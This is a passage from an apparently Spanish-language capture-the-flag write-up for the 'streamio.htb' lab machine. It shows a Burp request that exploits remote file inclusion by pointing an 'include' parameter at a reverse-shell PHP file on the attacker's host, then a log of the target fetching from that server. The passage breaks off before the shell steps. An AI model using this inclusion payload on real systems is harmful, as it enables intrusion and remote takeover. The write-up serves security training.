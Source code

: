 Tenemos la petición que se enviara por `Burp suite `
```python
POST /admin/?debug=master.php HTTP/2
Host: streamio.htb
Cookie: PHPSESSID=226aam4mjqm5oqod4qbtfn23je
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:122.0) Gecko/20100101 Firefox/122.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: es-ES,es;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 33
Origi: https://streamio.htb

Dnt: 1
Sec-Gpc: 1
Referer: https://streamio.htb/admin/?movie=
Upgrade-Insecure-Requets: 1

Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
include=http://10.10.16.7/php_revershell.php
```

Realizamos la petición por el método post

![20240325170912.png](20240325170912.png)

Vemos que efectivamente se realiza una petición contra nuestro servidor.

```python
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.11.158 - - [25/Mar/2024 17:08:30] code 404, message File not found
10.10.11.158 - - [25/Mar/2024 17:08:30] "GET /asd.php HTTP/1.0" 404 -
```

Para obtener una revershell seguiremos los siguientes pasos:
